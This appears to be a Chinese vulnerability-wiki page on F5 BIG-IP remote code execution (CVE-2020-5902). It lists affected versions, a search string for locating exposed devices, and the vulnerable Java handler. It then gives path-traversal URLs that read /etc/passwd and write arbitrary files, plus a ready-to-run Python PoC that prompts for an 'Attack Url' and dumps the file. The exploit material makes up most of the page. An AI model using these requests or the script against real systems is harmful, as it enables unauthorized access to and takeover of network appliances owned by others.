




# F5 BIG-IP 远程代码执行漏洞 CVE-2020-5902

## 漏洞描述

2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。

未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

参考阅读：

- https://mochazz.github.io/2020/07/11/F5-BIG-IP未授权RCE(CVE-2020-5902)/#未授权命令执行

## 漏洞影响

```
F5 BIG-IP 15.x: 15.1.0.4
F5 BIG-IP 14.x: 14.1.2.6
F5 BIG-IP 13.x: 13.1.3.4
F5 BIG-IP 12.x: 12.1.5.2
F5 BIG-IP 11.x: 11.6.5.2
```

## 网络测绘

```
title="BIG-IP&reg ;- Redirect"
```

## 漏洞复现

在 `tmshCmd` 的 `service`方法处理请求的时候，未对`command` 参数进行处理，直接调用 `WorkspaceUtils.runTmshCommand(cmd, request);` 方法执行命令，限制了执行`delete,create,list,modify`。


```java
if ("POST".equalsIgnoreCase(request.getMethod())) {
            String[] cmdArray = command.split(" ");
            String operation = cmdArray[0];
            String module = cmdArray[2];
            if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
               try {
                  String[] args = new String[]{command};
                  Result result = Syscall.callElevated(Syscall.TMSH, args);
                  output = result.getOutput();
                  error = result.getError();
               } catch (CallException var11) {
                  logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + var11.getMessage());
                  error = var11.getMessage();
               }
            } else {
               error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
}
```


在 `fileRead` 的 `service`方法处理请求的时候，未对 `fileName` 参数进行处理，直接调用 `WorkspaceUtils.readFile(fileName);` 方法，进行文件读取。


在 `fileSave` 的 `service`方法处理请求的时候，未对 `fileName`，`content` 参数进行处理，直接调用 `WorkspaceUtils.saveFile(request);` 方法，进行文件上传。





[详情利用方式 https://github.com/jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)


[详情利用方式 https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md](https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md)


**读取文件**


[**http://xxx.xxx.xxx.xxx/tmui/login.jsp/**](http://xxx.xxx.xxx.xxx/tmui/login.jsp/)**..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd**





**写入文件**


[**http://xxx.xxx.xxx.xxx/tmui/login.jsp/**](http://xxx.xxx.xxx.xxx/tmui/login.jsp/)**..;/tmui/locallb/workspace/fileSave.jsp**


**POST: fileName=/tmp/test.txt&content=test**


读取文件 /tmp/test





成功写入文件

## 漏洞POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Language":"zh-CN,zh;q=0.9",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
        if "output" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```





